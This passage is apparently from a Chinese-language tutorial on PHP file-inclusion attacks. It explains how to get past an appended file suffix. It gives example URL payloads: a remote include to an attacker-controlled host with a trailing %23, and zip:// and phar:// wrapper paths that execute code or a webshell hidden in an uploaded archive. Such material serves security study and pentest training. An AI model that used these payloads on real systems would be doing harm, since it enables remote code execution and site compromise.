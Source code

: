 姿势：

在我们常写的file后面加一个#就是新的file里面应该有的

```url
index.php?file=http://remoteaddr/remoteinfo.txt%23
```

#### <mark style="color:yellow;background-color:blue;">②解决伪协议</mark>

这里主要用的是两个解压缩的两个zip://和phar://，用法在上面已经提过了。其实它的原理就是在我们知道了后缀的文件路径后，我们可以在我们本来需要zip文件下面去构造这个/test/test.zip这个文件。然后让他们去执行，这个test.zip里面就写上我们需要的执行代码或者木马。

（1）zip://

zip后面要用绝对路径，并且在zip后面需要用#隔开

```url
fileinclude2.php?file=zip://D:\phpStudy\PHPTutorial\WWW\J0.zip%23J0
```

<figure><img src="../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

（2）phar://

phar后面也要用绝对路径，但是可以不用#隔开

<figure><img src="../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

